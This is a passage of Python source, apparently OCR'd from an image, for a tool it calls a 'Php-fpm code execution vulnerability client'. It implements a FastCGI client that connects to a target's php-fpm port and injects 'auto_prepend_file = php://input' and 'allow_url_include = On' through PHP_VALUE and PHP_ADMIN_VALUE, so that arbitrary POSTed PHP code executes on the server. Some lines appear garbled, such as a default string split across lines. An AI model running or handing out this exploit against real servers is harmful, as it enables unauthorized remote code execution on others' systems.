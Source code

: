             self.sock.send(request)
            self.requests[requestId]['state'] = FastCGIClient.FCGI_STATE_SEND
            self.requests[requestId]['response'] = b''
            return self.__waitForResponse(requestId)

        def __waitForResponse(self, requestId):
            data = b''
            while True:
                buf = self.sock.recv(512)
                if not len(buf):
                    break
                data += buf

            data = BytesIO(data)
            while True:
                response = self.__decodeFastCGIRecord(data)
                if not response:
                    break
                if response['type'] == FastCGIClient.__FCGI_TYPE_STDOUT \
                        or response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                    if response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                        self.requests['state'] = FastCGIClient.FCGI_STATE_ERROR
                    if requestId == int(response['requestId']):
                        self.requests[requestId]['response'] += response['content']
                if response['type'] == FastCGIClient.FCGI_STATE_SUCCESS:
                    self.requests[requestId]
            return self.requests[requestId]['response']

        def __repr__(self):
            return "fastcgi connect host:{} port:{}".format(self.host, self.port)


    if __name__ == '__main__':
        parser = argparse.ArgumentParser(description='Php-fpm code execution vulnerability client.')
        parser.add_argument('host', help='Target host, such as 127.0.0.1')
        parser.add_argument('file', help='A php file absolute path, such as /usr/local/lib/php/System.php')
        parser.add_argument('-c', '--code', help='What php code your want to execute', default='
    ')
        parser.add_argument('-p', '--port', help='FastCGI port', default=9000, type=int)

        args = parser.parse_args()

        client = FastCGIClient(args.host, args.port, 3, 0)
        params = dict()
        documentRoot = "/"
        uri = args.file
        content = args.code
        params = {
            'GATEWAY_INTERFACE': 'FastCGI/1.0',
            'REQUEST_METHOD': 'POST',
            'SCRIPT_FILENAME': documentRoot + uri.lstrip('/'),
            'SCRIPT_NAME': uri,
            'QUERY_STRING': '',
            'REQUEST_URI': uri,
            'DOCUMENT_ROOT': documentRoot,
            'SERVER_SOFTWARE': 'php/fcgiclient',
            'REMOTE_ADDR': '127.0.0.1',
            'REMOTE_PORT': '9985',
            'SERVER_ADDR': '127.0.0.1',
            'SERVER_PORT': '80',
            'SERVER_NAME': "localhost",
            'SERVER_PROTOCOL': 'HTTP/1.1',
            'CONTENT_TYPE': 'application/text',
            'CONTENT_LENGTH': "%d" % len(content),
            'PHP_VALUE': 'auto_prepend_file = php://input',
            'PHP_ADMIN_VALUE': 'allow_url_include = On'
        }